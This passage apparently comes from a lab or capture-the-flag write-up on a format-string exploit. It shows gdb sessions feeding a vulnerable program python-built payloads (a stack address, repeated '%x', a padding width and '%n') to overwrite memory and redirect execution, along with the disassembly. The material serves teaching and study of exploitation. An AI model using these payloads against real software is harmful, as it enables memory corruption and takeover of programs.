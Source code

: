 <p><code>heaven address: 0x08048690 <br>
 ebp: 0xffffda30 <br>
</code> <br>
How can we possibly write such a complicated <code>08048690</code> to a target address. Here is the trick. <br>
First, you need to figure out what the <code>$esp</code> look like when your input is copied to the stack, maybe it doesn’t start at  a desired position that can be interpreted as a 8-byte address and you need to put some JUNK to push it back. I will show it in <code>gdb</code></p>



<pre class="prettyprint"><code class="language-gdb hljs perl">(gdb) b hall_e
Breakpoint <span class="hljs-number">1</span> at <span class="hljs-number">0x80486b0</span>: file <span class="hljs-keyword">format</span>.c, line <span class="hljs-number">20</span>.
(gdb) run <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "\x34\xda\xff\xff"+"%x"*9+"%"+"%n"'</span>)
Starting program: <span class="hljs-regexp">/c0re/attackformat</span> <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"'</span>)
Your input was of <span class="hljs-keyword">length</span>: <span class="hljs-number">35</span>

Breakpoint <span class="hljs-number">1</span>, hall_e (
    fmt=<span class="hljs-number">0xffffdc42</span> <span class="hljs-string">"4\332\377\377<span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%x</span><span class="hljs-variable">%%</span>n"</span>)
    at <span class="hljs-keyword">format</span>.c:<span class="hljs-number">20</span>
<span class="hljs-number">20</span>      {
(gdb) disas
...

   <span class="hljs-number">0x08048701</span> &lt;+<span class="hljs-number">81</span>&gt;:    call   <span class="hljs-number">0x80484c0</span> &lt;snprintf<span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x08048706</span> &lt;+<span class="hljs-number">86</span>&gt;:    <span class="hljs-keyword">push</span>   <span class="hljs-variable">%ebx</span>
---Type &lt;<span class="hljs-keyword">return</span>&gt; to <span class="hljs-keyword">continue</span>, <span class="hljs-keyword">or</span> <span class="hljs-string">q &lt;return&gt;</span> to quit---
   <span class="hljs-number">0x08048707</span> &lt;+<span class="hljs-number">87</span>&gt;:    call   <span class="hljs-number">0x8048430</span> &lt;<span class="hljs-keyword">printf</span><span class="hljs-variable">@plt</span>&gt;
   <span class="hljs-number">0x0804870c</span> &lt;+<span class="hljs-number">92</span>&gt;:    lea    -<span class="hljs-number">0x8</span>(<span class="hljs-variable">%ebp</span>),<span class="hljs-variable">%esp</span>
   <span class="hljs-number">0x0804870f</span> &lt;+<span class="hljs-number">95</span>&gt;:    <span class="hljs-keyword">xor</span>    <span class="hljs-variable">%eax</span>,<span class="hljs-variable">%eax</span>
   <span class="hljs-number">0x08048711</span> &lt;+<span class="hljs-number">97</span>&gt;:    <span class="hljs-keyword">pop</span>    <span class="hljs-variable">%ebx</span>
   <span class="hljs-number">0x08048712</span> &lt;+<span class="hljs-number">98</span>&gt;:    <span class="hljs-keyword">pop</span>    <span class="hljs-variable">%edi</span>
   <span class="hljs-number">0x08048713</span> &lt;+<span class="hljs-number">99</span>&gt;:    <span class="hljs-keyword">pop</span>    <span class="hljs-variable">%ebp</span>
   <span class="hljs-number">0x08048714</span> &lt;+<span class="hljs-number">100</span>&gt;:   ret
